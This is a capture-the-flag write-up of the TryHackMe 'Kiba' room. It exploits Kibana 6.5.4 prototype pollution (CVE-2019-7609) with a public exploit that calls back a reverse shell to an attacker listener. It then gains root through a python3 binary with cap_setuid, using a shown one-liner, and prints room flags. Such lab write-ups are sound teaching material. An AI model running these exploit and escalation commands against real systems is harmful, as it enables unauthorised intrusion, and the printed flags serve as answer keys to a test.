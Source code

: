 ```yaml
---
author: "Shebu"
title: "Kiba - THM"
date: "2023-06-07"
tags: ["kiba", "elastic", "prototype pollution", "CVE-2019-7609"]
cover:
    image: "img/0.png"
    # can also paste direct link from external site
    # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
    alt: "<alt text>"
    caption: "<text>"
    relative: false # To use relative path for cover image, used in hugo Page-bundles
---
```


**Kiba** is a easy rated room from tryhackme where we exploit a prototype pollution vulnerability to gain a user shell  & then escalate our privileges to root by exploiting a python3 binary which has setuid capabilities.

![header](img/0.png#center)


|  **Room** 	| Kiba                                          	|
|:--------------:	|----------------------------------------------------	|
|     **OS**     	| Linux                                              	|
| **Difficulty** 	| Easy                                             	|
|  **Room Link** 	| [https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)               	|
|   **Creator**  	| [stuxnet](https://tryhackme.com/p/stuxnet) 	|


## What is the vulnerability that is specific to programming languages with prototype-based inheritance? 

![header](img/1.png#center)

> Vulnerability - Prototype Pollution

## What is the version of visualization dashboard installed in the server?

Go to **Management tab** , there we can find the version of kiba that is running.

![header](img/2.png#center)

> Version - 6.5.4

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000 /

A simple google search reveals the **CVE** number.

![header](img/3.png#center)

> CVE ID - CVE-2019-7609

## Compromise the machine and locate user.txt

An python3 exploit for prototype pollution is available on github for  kibana  6.5.4 

- [https://github.com/LandGrey/CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)

*Run the Exploit*

```bash
amrita22005client@ubuntu:~/kiba$ python3 exploit.py http://10.10.38.106:5601 10.17.45.3 4444
/home/amrita22005client/kiba/exploit.py:15: DeprecationWarning: The distutils package is deprecated and slated for removal in Python 3.12. Use setuptools or check PEP 632 for potential alternatives
  from distutils.version import StrictVersion
[•] Kibana version identified: 6.5.4
[✓] Version is vulnerable
[✓] Target seems vulnerable
[✓] Exploit completed
[➜] Check your listener on 10.17.45.3:4444
```

We get our reverse shell & also the `user.txt` flag.

```bash
shebut@ubuntu:~/kiba$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.38.106 48624
bash: cannot set terminal process group (945): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
kiba@ubuntu:/home/kiba/kibana/bin$ cd ~
cd ~
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_*********_rce}
```

> **Capabilities is a concept that provides a security system that allows "divide" root privileges into different values**

## How would you recursively list all of these capabilities?

Command to list all capabilities - `getcap -r /`

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null

/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
Straightaway we can see that python3 has a suspicious path.

We can refer [GTFOBINS](https://gtfobins.github.io/gtfobins/python/#capabilities) to exploit the python binary which has setuid capabilities by runing the command `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```bash 
# id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

# cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```
Now we have our root shell & our `root.txt` flag.